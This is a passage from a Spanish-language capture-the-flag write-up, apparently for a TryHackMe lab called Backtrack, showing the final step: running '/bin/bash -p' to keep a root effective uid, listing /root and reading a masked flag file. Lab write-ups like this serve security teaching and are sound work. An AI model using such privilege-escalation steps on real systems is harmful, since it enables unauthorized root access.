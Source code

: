 Ahora utilizamos el siguiente comando para otorgarnos acceso de root y leer la última flag:
```
orville@Backtrack:/dev/shm$ /bin/bash -p
bash-5.0# id
uid=1003(orville) gid=1003(orville) euid=0(root) egid=0(root) groups=0(root),1003(orville)
bash-5.0# ls -lna /root
total 40
drwx------  6 0 0 4096 Mar 13  2024 .
drwxr-xr-x 20 0 0 4096 Mar 13  2024 ..
lrwxrwxrwx  1 0 0    9 Mar  9  2024 .bash_history -> /dev/null
-rw-r--r--  1 0 0 3106 Dec  5  2019 .bashrc
drwxr-xr-x  3 0 0 4096 Mar  9  2024 .cache
drwxr-xr-x  3 0 0 4096 Mar  9  2024 .local
lrwxrwxrwx  1 0 0    9 Mar  9  2024 .mysql_history -> /dev/null
-rw-r--r--  1 0 0  161 Dec  5  2019 .profile
drwx------  2 0 0 4096 Mar  9  2024 .ssh
-rw-------  1 0 0 1360 Mar  9  2024 flag3.txt
-rwx------  1 0 0  815 Mar 13  2024 manage.py
drwx------  3 0 0 4096 Mar  9  2024 snap
bash-5.0# cat /root/flag3.txt

██████╗░░█████╗░░█████╗░██╗░░██╗████████╗██████╗░░█████╗░░█████╗░██╗░░██╗
██╔══██╗██╔══██╗██╔══██╗██║░██╔╝╚══██╔══╝██╔══██╗██╔══██╗██╔══██╗██║░██╔╝
██████╦╝███████║██║░░╚═╝█████═╝░░░░██║░░░██████╔╝███████║██║░░╚═╝█████═╝░
██╔══██╗██╔══██║██║░░██╗██╔═██╗░░░░██║░░░██╔══██╗██╔══██║██║░░██╗██╔═██╗░
██████╦╝██║░░██║╚█████╔╝██║░╚██╗░░░██║░░░██║░░██║██║░░██║╚█████╔╝██║░╚██╗
╚═════╝░╚═╝░░╚═╝░╚════╝░╚═╝░░╚═╝░░░╚═╝░░░╚═╝░░╚═╝╚═╝░░╚═╝░╚════╝░╚═╝░░╚═╝

THM{**********************}
bash-5.0# 
```
¡Hasta la próxima! ¡Que la "*suerte*" os acompañe!